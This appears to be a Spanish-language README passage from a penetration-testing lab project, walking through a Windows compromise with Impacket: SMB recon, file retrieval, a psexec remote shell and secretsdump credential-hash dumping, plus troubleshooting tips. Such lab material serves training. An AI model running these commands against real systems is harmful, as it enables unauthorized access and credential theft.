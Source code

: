 ## 📊 Ejemplos Prácticos

### Escenario Completo: Compromiso de Windows
```bash
# 1. Reconocimiento
ping -c 4 192.168.1.100
nmap -p 445 192.168.1.100

# 2. SMB
python3 /usr/share/doc/python3-impacket/examples/smbclient.py admin:password@192.168.1.100
# Dentro: shares → use C → ls → cd Users → get flag.txt

# 3. Shell
python3 /usr/share/doc/python3-impacket/examples/psexec.py admin:password@192.168.1.100
# Dentro: whoami → systeminfo → net user

# 4. Hashes
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py admin@192.168.1.100 -p 'password'
```

### Interpretación de Resultados:
- ✅ **Puerto 445 abierto** = SMB disponible
- ✅ **Autenticación exitosa** = Credenciales válidas  
- ✅ **Shell obtenido** = Acceso remoto conseguido
- ❌ **Connection refused** = Firewall/servicio inactivo

## 🐛 Troubleshooting

### Instalación:
```bash
# Error: Impacket not found
sudo apt install python3-impacket

# Error: Permission denied  
sudo python3 hacker_menu.py

# Error: Module not found
sudo pip3 install colorama netifaces
```

### Ejecución:
```bash
# Error: Script not found
cd ~/pentesting-lab && ls -la

# Error: Connection refused
# Verificar: ping [IP] && nmap -p 445 [IP]
```

## 🔐 Aspectos de Seguridad
